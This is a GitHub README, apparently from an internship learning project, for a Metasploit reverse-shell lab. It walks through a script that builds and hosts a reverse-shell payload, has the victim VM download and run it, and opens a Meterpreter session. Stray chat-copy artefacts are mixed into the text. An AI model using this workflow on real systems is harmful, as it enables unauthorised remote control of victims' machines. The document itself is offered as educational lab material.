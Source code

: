 # Metasploit Reverse Shell Lab

This project demonstrates how to create a **reverse TCP shell** using the Metasploit Framework in a controlled lab environment (Kali Linux as attacker, Windows 10 as victim).

The automation is handled by a single script: `scripts/run_lab.sh`.

---

## 🛠️ Requirements

- Kali Linux (with Metasploit installed)
- Windows 10 VM (victim)
- VirtualBox or VMware
- Both machines on same LAN / Host-only network

---

## 📂 How to Use

### 1. Clone this repository

```bash
git clone https://github.com/<your-username>/metasploit-reverse-shell-lab.git
cd metasploit-reverse-shell-lab/scripts
2. Make script executable
bash
Copy
Edit
chmod +x run_lab.sh
3. Run the script
bash
Copy
Edit
./run_lab.sh <your-kali-ip> 4444
Example:
./run_lab.sh 192.168.1.50 4444

This will:

Generate a reverse shell payload (shell.exe)

Host it over HTTP at http://<ip>:8000/shell.exe

Start a Metasploit handler waiting for the connection

🪟 On the Windows Victim VM
Open a browser

Visit: http://<kali-ip>:8000/shell.exe

Download and run the file

🐚 If it works…
You'll see a Meterpreter session open in your Kali terminal:

bash
Copy
Edit
meterpreter > sysinfo
meterpreter > shell
⚠️ DISCLAIMER
This lab is for educational use only in a virtual environment. Do not use this on real systems or networks you don’t have permission to test.

📝 Credits
Made by Aarya as part of a cybersecurity learning project (ShadowFox Internship Lab – June 2025).

yaml
Copy
Edit

---

## ✅ 2. Optional `.gitignore` (optional but safe)

Create a `.gitignore` file with this content:

```bash
payloads/
*.exe
*.log
